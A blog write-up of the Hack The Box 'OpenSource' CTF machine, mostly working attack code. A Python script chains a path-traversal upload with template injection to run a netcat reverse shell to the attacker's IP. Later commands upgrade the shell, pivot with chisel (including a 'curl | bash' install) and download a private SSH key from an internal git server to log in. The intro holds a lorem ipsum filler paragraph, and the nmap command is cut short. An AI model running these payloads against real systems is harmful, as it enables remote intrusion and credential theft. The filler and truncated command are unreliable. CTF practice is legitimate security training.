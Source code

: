+++
title = "First HTB CTF: OpenSource"
date = 2022-05-30

[taxonomies]
categories = ["htb"]
+++

This weekend I hacked my way through my first Hack The Box CTF. This was an exciting/frustrating and enlightening experience. This writeup will cronicle how I hacked the box, and some of the interestings things I learned on the way.

<!-- more -->
Ut luctus dolor ut tortor hendrerit, sed hendrerit augue scelerisque. Suspendisse quis sodales dui, at tempus ante. Nulla at tempor metus. Aliquam vitae rutrum diam. Curabitur iaculis massa dui, quis varius nulla finibus a. Praesent eu blandit justo. Suspendisse pharetra, arcu in rhoncus rutrum, magna magna viverra erat, eget vestibulum enim tellus id dui. Nunc vel dui et arcu posuere maximus. Mauris quam quam, bibendum sed libero nec, tempus hendrerit arcu. Suspendisse sed gravida orci. Fusce tempor arcu ac est pretium porttitor. Aenean consequat risus venenatis sem aliquam, at sollicitudin nulla semper. Aenean bibendum cursus hendrerit. Nulla congue urna nec finibus bibendum. Donec porta tincidunt ligula non ultricies.


# Write up OpenSource

The OpenSource machine was my first HTB machine and I had a great time hacking away and capturing the flags.

The CTF is named open source because the exploit revolves around an open source webapp.

**Discovery**

First we run a port scan on the box to see what services are running. 

```
nmap -sS 
```

We are told that there are 3 services running on this Linux box.

Port 22 is ssh, 3000 is some service that looks like it's running but has some IP rules protecting it. Lastly we have port 80 running the custom web app.

We can navigate to the IP in our browser to see what the site looks like.

At the bottom of the page we are given a link to the source.

Inspecting the contents we can see it's a git repo on the dev branch. We can also see that the app is running in a docker container with default args.

We want to see if the source code will give us a way to get us greater then expected access to the box. 

Inside of the views.py file we can see that the code makes relative path calls using user input.

This looks like a good way for us to access more information about or a way to place a file on the box.

We can see that there's some custom written validation logic that removes any ../ we include. It's also written recursively so we can manipulate it to include that sequence of chars.

We can however test if an extra / will navigate us to the root dir. 

After some testing we're positive that we can navigate to any directory in the box.





```python
import requests

# set ip addresses 
target = '10.10.11.164'
attacker = '10.10.14.48'
# attacker = '10.0.2.15'

# build payload for reverse shell
command = f'nc {attacker} 4444 -e /bin/sh'

headers = {
    'Host': target,
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://10.10.11.164',
    'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundarySHIrKoubQdZqALfJ',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://10.10.11.164/upcloud',
    'Accept-Language': 'en-US,en;q=0.9',
    'Connection': 'close',
}

# rewrite a template file by exploting the relative path
target_overwrite = '//app/app/templates/index.html'

# build template with injected python to access shell
# PS: use codepoint \u007b and \u007d
data = f'''------WebKitFormBoundarySHIrKoubQdZqALfJ
Content-Disposition: form-data; name="file"; filename="{target_overwrite}"
Content-Type: application/octet-stream


<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>@drbh</title>
<body>
<pre>
hello 

\u007b\u007b self.__init__.__globals__.__builtins__.__import__('os').system('{command}') \u007d\u007d
</pre>
</body>
</html>
------WebKitFormBoundarySHIrKoubQdZqALfJ--
'''
# send request
response = requests.post(f'http://{target}/upcloud', headers=headers, data=data, verify=False)
# print(response)
# print(response.text)

# load page to do remote execution
# PS: should be running reverse shell listener like: ncat -lvp 4444
try:
    requests.get(f'http://{target}/', timeout=1)
except:
    pass
```


python -c 'import pty; pty.spawn("/bin/ash")'

ctrl-z
stty raw -echo
stty raw -echo; fg


Pivot


```
## client
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_386.gz
ncat -lvp 8888 < chisel_1.7.7_linux_386.gz
nc 10.10.14.46 8888 > chisel.gz
gzip -d chisel.gz
chmod +x chisel
chisel client 10.10.14.46:7000 R:3000:10.10.11.164:3000


## server
curl https://i.jpillora.com/chisel! | bash
chisel server -p 7000 --reverse -v
```


```
git --no-pager log --decorate=short -3 --stat

git --no-pager diff a76f8f75f7a4a12b706b0cf9c983796fa1985820 -- app/.vscode/settings.json
```


curl http://localhost:3000/dev01/home-backup/raw/branch/main/.ssh/id_rsa > sshkey.pem


ssh -i sshkey.pem dev01@10.10.11.164
